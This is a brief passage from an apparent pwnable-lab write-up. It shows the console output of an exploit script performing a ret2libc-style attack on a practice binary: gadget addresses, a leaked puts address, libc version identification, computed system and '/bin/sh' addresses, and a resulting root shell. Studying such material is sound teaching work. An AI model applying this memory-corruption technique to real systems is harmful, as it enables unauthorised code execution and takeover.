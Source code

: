 ## **Exploit**
```shell
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] Overflow size: 72
[*] Stop Gadget: 0x4005c0
[*] RDI Gadget: 0x4007c3
[*] puts plt: 0x400555
[*] puts got: 0x601018
[*] puts libc addr: 0x7fac6913d690
Multi Results:
 0: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2.2_i386)
 1: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2_i386)
 2: archive-old-glibc (id libc6-amd64_2.24-3ubuntu2.2_i386)
 3: ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
 4: archive-old-glibc (id libc6-amd64_2.24-3ubuntu1_i386)
Please supply more info using 
    add_condition(leaked_func, leaked_address).
You can choose it by hand
Or type 'exit' to quit:3
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
0x6f690
[*] libc base: 0x7fac690ce000
[*] system addr: 0x7fac69113390
[*] binsh addr: 0x7fac6925ad57
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable
```

**References**  
[https://www.lazenca.net/pages/viewpage.action?pageId=16810286 ](https://www.lazenca.net/pages/viewpage.action?pageId=16810286)